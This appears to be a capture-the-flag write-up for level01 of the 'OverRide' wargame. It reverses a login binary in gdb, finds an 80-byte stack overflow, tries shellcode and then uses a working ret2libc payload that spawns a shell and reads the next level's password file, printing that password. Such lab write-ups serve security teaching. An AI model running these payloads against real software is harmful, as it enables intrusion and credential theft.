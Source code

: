 
```
objdump -t level01 | grep bss
0804a040 g     O .bss	00000064              a_user_name

objdump -t level01 | grep text
080484d0 g     F .text	000000e6              main
08048464 g     F .text	0000003f              verify_user_name
```

```
disass main

 0x0804852d <+93>:	call   0x8048464 <verify_user_name>
 
 0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
```

```
disass verify_user_name

0x0804847d <+25>:	mov    $0x80486a8,%eax

(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
```

```
disass verify_user_pass

```
`cyclic 100`
```
Program received signal SIGSEGV, Segmentation fault.
0x61616175

Desktop cyclic -l 0x61616175
80
```

```
  0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
  0x08048585 <+181>:	mov    %eax,0x5c(%esp)
  
  b *main+181
  
  run 
  
  Enter Username: dat_wil
  Enter Password:
  AAAA
  
  x/80wx $esp
  0xffffd680:	0xffffd69c	0x00000064	0xf7fcfac0	0x00000001
  0xffffd690:	0xffffd8a1	0x0000002f	0xffffd6ec	0x41414141
```

also u can use the syntax:
`run < <(python -c 'print("dat_wil\nAAAA\n")')`
`run < <(python -c 'print("dat_wil")' && python -c 'print("AAAA")')` / `run < <(python -c 'print "dat_wil"' && python -c 'print "AAAA"')`

```
run < <(python -c 'print "dat_will"' && python -c 'print "A" * 80 + "BBBB"')
run < <(python -c 'print "dat_will\n" + "\x90" * 59 + "C" * 21 + "BBBB"')

x $ebp+4
0xffffd6ec:	0x42424242
```
```
run < <(python -c 'print "dat_wil"' && python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 59 +  "\xff\xff\xd6\x9c"[::-1]')


x $ebp+4
0xffffd6ec:	0xffffd69c

x *0xffffd6ec
0xffffd69c:	0x99580b6a
```


nothing

```
ltrace ./level01

puts("Enter Password: "Enter Password:
)                                         = 17
fgets(AAAA
"AAAA\n", 100, 0xf7fcfac0)                                 = 0xffffd6ac


level01@OverRide:~$ (python -c 'print "dat_will"'; python -c 'print  "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"  + "\x90" * 59 + "\xff\xff\xd6\xac"[::-1]'; cat -)  | ./level01

pwd
Segmentation fault (core dumped)
```



error gdb
```
process 1707 is executing new program: /bin/dash
warning: Selected architecture i386:x86-64 is not compatible with reported target architecture i386
Architecture of file not recognized.
```

i will go with ret2libc
```
(gdb) p &system
 0xf7e6aed0 
 
 or 
 
 (gdb) info addr system
 0xf7e6aed0 
 
(gdb) p &exit
 0xf7e5eb70 
 ```
 ```
(gdb) find system, +9999999, "/bin/sh"
0xf7f897ec

or

 (gdb) info proc map
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	 0xf7e2b000 0xf7e2c000     0x1000        0x0
	 0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so

find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
```

so

payload = padding + system + return_after_system + bin_sh

`payload = "A" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "AAAA" + "\xf7\xf8\x97\xec"[::-1]`

```
level01@OverRide:~$ (python -c 'print "dat_will\n" + "A" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "AAAA" + "\xf7\xf8\x97\xec"[::-1]' ; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

pwd
/home/users/level01
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
